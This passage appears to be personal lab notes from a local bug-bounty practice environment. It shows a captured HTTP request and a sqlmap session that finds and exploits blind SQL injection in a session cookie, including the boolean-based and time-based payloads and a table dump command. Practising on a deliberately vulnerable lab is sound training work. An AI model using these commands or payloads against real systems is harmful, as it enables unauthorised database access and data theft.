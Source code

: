 ![[../Screenshot from 2024-06-20 03-08-14.png]]

We can continue this attack with intruder but lets have a look at it SQL map
grab this request and save it 

```python
GET /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=6967cabefd763ac1a1a88e11159957db
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
```
Lets run the My SQL test on it

```python
┌──(cyber㉿kali)-[~/Desktop/bugbounty]
└─$ sqlmap -r req.txt --level=2  --dump -T injection0x02
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:14:34 /2024-06-20/

[03:14:34] [INFO] parsing HTTP request from 'req.txt'
[03:14:34] [INFO] resuming back-end DBMS 'mysql' 
[03:14:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9789=9789 AND 'XMPb'='XMPb

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 1676 FROM (SELECT(SLEEP(5)))TGPD) AND 'SbkW'='SbkW
---
[03:14:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 5.0.12
[03:14:34] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[03:14:34] [INFO] fetching current database
[03:14:34] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[03:14:34] [INFO] retrieved: 
do you want to URL encode cookie values (implementation specific)? [Y/n] n
bb-labs
[03:14:48] [INFO] fetching columns for table 'injection0x02' in database 'bb-labs'
```